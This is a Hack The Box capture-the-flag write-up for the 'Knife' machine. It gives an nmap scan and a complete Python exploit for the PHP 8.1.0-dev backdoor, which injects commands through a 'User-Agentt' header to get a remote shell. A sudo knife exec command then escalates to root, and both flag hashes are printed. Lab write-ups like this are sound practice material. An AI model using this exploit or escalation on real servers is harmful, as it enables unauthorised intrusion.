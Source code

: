 ```yaml
---
title: HTB - Knife (EN)
author: gpandres
date: 2021-09-08 20:00:00 +0800
categories: [Cybersecurity,HTB,WriteUps]
tags: [HTB,Knife,PHP,GTFOBin,Backdoor]
---
```




![knifeimg](https://gpandres.github.io/assets/img/posts/knife/knife.jpeg)


<h3 data-toc-skip>We'll start scanning ports with NMAP.</h3>


```console
$ nmap -v 10.10.10.242
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-08 18:20 CEST
Initiating Ping Scan at 20:20
Scanning 10.10.10.242 [2 ports]
Completed Ping Scan at 20:20, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:20
Completed Parallel DNS resolution of 1 host. at 20:20, 0.03s elapsed
Initiating Connect Scan at 20:20
Scanning 10.10.10.242 [1000 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed Connect Scan at 20:20, 9.31s elapsed (1000 total ports)
Nmap scan report for 10.10.10.242
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

<h3 data-toc-skip>Looks like we have a web server and SSH service. Let's try to see what is on the web.</h3>

![knifeweb](https://gpandres.github.io/assets/img/posts/knife/knifeweb.png)

<h3 data-toc-skip>It is a hospital, but I haven't found anything useful on the web.</h3>

<h3 data-toc-skip>With Wappalyzer we can discover what technologies are used to create a website.</h3>

![knifewappalyzer](https://gpandres.github.io/assets/img/posts/knife/knifewappalyzer.png)

<h3 data-toc-skip>Alright, let's search for vulnerabilities for these technologies.</h3>

<h3 data-toc-skip>There's a vulnerability for PHP 8.1.0dev.</h3>
![knifesearch](https://gpandres.github.io/assets/img/posts/knife/knifesearch.png)
<https://www.exploit-db.com/exploits/49933>


<h3 data-toc-skip>I copied the script and executed</h3>


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit

```


```console
$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acess tty; job crontol turned off.
$ whoami
james
```
<h3 data-toc-skip>We are in!, let's check the user flag.</h3>

```console
$ cat home/james/user.txt
cb5ddfa28b84d6b930bca47d9bc984b6
```

<h3 data-toc-skip>Now we have to get access with root.</h3>

<h3 data-toc-skip>Check if we can execute commands as root with james</h3>

```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

<h3 data-toc-skip>We can execute command as root with knife command</h3>

```console
$ sudo /usr/bin/knife exec -E "exec '/bin/sh -i'"

```
<h3 data-toc-skip>Check the root flag!</h3>

```console
$ cat  /root/root.txt
695774b32219bb1f3f9402267b6d9607
```

<h3 data-toc-skip>And we finish!</h3>




















